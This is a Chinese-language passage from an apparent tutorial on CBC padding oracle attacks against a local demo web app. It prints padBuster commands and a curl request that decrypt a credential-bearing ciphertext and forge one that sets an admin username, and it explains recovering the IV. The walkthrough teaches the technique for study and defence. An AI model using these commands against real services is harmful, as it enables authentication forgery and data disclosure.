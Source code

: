 解密结果：

```
Decrypted cipher value: 484b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3c4ece78807a0bd1ee02b447f9345c126 => bytearray(b'ame=PegasusX&Password=test\x06\x06\x06\x06\x06\x06')
```

于此同时使用padbuster方式如下：

```python
$ ./padBuster.pl "http://127.0.0.1:5000/check?cipher=484b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3c4ece78807a0bd1ee02b447f9345c126" "484b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3c4ece78807a0bd1ee02b447f9345c126" 16 -encoding  1 -error "ApplicationUsername missing" -prefix "484b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3"
...
-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): ame=PegasusX&Password=test

[+] Decrypted value (HEX): 616D653D50656761737573582650617373776F72643D74657374060606060606

[+] Decrypted value (Base64): YW1lPVBlZ2FzdXNYJlBhc3N3b3JkPXRlc3QGBgYGBgY=
```

此外，我们还可以通过这个漏洞伪造任意加密的内容。不过，这里唯一的限制就是由于我们不知道IV，所以无法正常伪造第一个块。但是，我们可以用=test&终止掉第一个块（这里依据的是check的内部检查逻辑的问题，它只检测了需要的数据是否存在，而没有检测是否有不需要的数据出现），那么应用程序仍然可以接受我们伪造的密文。

如下：

```bash
 ./padBuster.pl "http://127.0.0.1:5000/check?cipher=484b850123a04baf15df9be14e87369b" "484b850123a04baf15df9be14e87369b" 16 -encoding 1 error "ApplicationUsername missing" -prefix "484b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3" -plaintext "=test&ApplicationUsername=admin&Password=PegasusX"
 ...
 
[+] Encrypted value is: e6cb8cd9562ff00319c105d14039f536bf29d30fe039fdc4fed6c178f93a9a390d61fd94eccba511d82725e829cc885908ab16a2323f452500cb1c235941fa9100000000000000000000000000000000
------------------------------------------------------------
$ curl http://127.0.0.1:5000/check\?cipher\=e6cb8cd9562ff00319c105d14039f536bf29d30fe039fdc4fed6c178f93a9a390d61fd94eccba511d82725e829cc885908ab16a2323f452500cb1c235941fa9100000000000000000000000000000000
decrypted: [???`??F?D???{=test&ApplicationUsername=admin&Password=PegasusX
parsed: {'[\x97\x94\x18\xb6`\xb8\xe9F\xacD\x0f\xac\xf6\xce{': ['test'], 'ApplicationUsername': ['admin'], 'Password': ['PegasusX']}%   
```

最后，之前，我们说到由于IV未知，我们无法正确地破解出第一个块。但是，有时候由于一些语法、逻辑的推测抑或通过其它视角的观察，我们能够才到第一块的明文大致是什么。

比如，我们的示例程序：

我们得到密文ame=PegasnusX&Password=test。但是，由于我们知道正常加密过程中，传输进去的是ApplicationUsername=xxx&Password=xxx。所以，我们往往能够正常猜测出最后的明文。或者，某些人语感特别好，能直接依据ame的字母猜测出ApplicationUsername。

而，如果我们能做到上述这一步，那么我们便能真正得到IV了。在一开始，我们说到，IV xor intermediate value = plaintext 所以，我们能得到IV=intermediate value xor plaintext。
